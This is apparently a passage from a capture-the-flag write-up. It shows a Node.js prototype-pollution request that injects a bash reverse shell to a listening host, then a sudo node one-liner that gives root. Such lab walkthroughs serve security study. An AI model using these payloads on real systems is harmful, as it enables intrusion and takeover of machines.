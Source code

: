It's working, but the method PUT had created new message. When we try to POST in /api/store, the app doesn't respond.

In the POST route we have a call fork() function. So we can exploit prototype pollution because of this function. Inside request to /api/store, we can call `__proto__` to overwrite all Objects created just to add a attributes. But we will create a attributes from fork function just to gain another RCE. So use nc to listen.
```
POST /api/store HTTP/1.1
Host: 172.16.1.180:3000
Content-Type: application/json
Content-Length: 142

{"auth":{"name":"guest","password":"guest"},"__proto__":{"execPath":"/bin/bash","execArgv":["-c", "sh -i >& /dev/tcp/10.0.10.235/3001 0>&1"]}}
```

![privesc_at_uhc](../images/uhc-v20/privesc_at_uhc.png)

Now we have uhc user, but we need gain access to root. So we have a permission to use /bin/node with sudo with the following payload found in GTFObins.
```bash
node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
```

![privesc_at_root](../images/uhc-v20/privesc_at_root.png)
<br>
Here we are with the root =D
